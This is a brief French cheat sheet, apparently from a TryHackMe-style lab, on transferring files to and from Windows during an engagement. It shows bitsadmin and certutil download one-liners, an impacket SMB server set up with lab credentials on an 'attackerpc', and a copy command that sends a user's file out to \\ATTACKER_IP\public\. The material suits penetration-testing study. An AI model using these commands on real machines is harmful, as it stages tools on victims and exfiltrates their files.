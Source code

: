# Pour récuperer à partir de kali/parrot

Windows a son propre utilitaire de téléchargement en ligne de commande - BITSAdmin :

    BITSAdmin est un outil de ligne de commande que vous pouvez utiliser pour créer des tâches de téléchargement ou de téléchargement et surveiller leur progression.

EDIT : 26.01.15 - Voici mon aperçu de la façon dont un fichier peut être téléchargé sur Windows sans outils externes

Et un exemple complet de bitsadmin:

bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip

Edit : 15.05.2018 - Il s'est avéré qu'il est également possible de télécharger un fichier avec certutil :

certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip

Certutil n'est pas installé par défaut sur XP / Win2003, mais est disponible sur les versions Windows les plus récentes. Pour XP / 2003, vous aurez besoin du pack d'outils d'administration pour Windows Server 2003.

# pour recupérer à partir de windows

user@attackerpc$ mkdir [mondossierkali]
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username [THMBackup] -password [CopyMaster555] public [mondossierkali]

C:\> copy C:\Users\THMBackup\monfichierwindows.txt \\ATTACKER_IP\public\